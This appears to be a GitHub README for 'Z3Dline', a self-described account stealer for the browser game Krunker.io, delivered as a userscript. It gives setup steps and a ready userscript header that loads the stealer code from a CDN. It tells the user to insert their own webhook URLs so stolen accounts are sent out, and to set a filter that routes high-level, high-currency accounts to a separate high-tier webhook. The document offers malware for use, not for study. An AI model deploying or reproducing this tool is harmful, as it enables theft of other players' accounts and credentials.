 # Z3Dline

An improved version of PTWline stealer for Krunker.io.

# Usage

- `@require` The script in your userscript header.
- You also need to require `jsonpack` and `msgpack-lite`, see example below.
- Replace the `LO_WEBHOOK_URL` and `HI_WEBHOOK_URL` with your own webhook URLs.
- You can also change the `HI_FILTER` to set which accounts will go to the High-Tier Webhook. ONLY ACCOUNTS MATCHING ALL THE FILTERS WILL BE SENT TO THE HIGH-TIER WEBHOOK.

```js
// ==UserScript==
// @name         Z3DLine
// @description  Krunker Account Stealer
// @version      1.0.0
// @author       z3db0y
// @match        *://*.krunker.io/*
// @icon         https://www.google.com/s2/favicons?sz=64&domain=krunker.io
// @grant        none
// @run-at       document-start
// @require      https://unpkg.com/jsonpack
// @require      https://unpkg.com/msgpack-lite/dist/msgpack.min.js
// @require      https://cdn.jsdelivr.net/gh/z3db0y/Z3Dline/dist.js
// ==/UserScript==

const LO_WEBHOOK_URL = '';
const HI_WEBHOOK_URL = '';
const HI_FILTER = {
    lvl: 0,
    kr: 0,
    kdr: 0,
    nukes: 0,
    accuracy: 0
};
```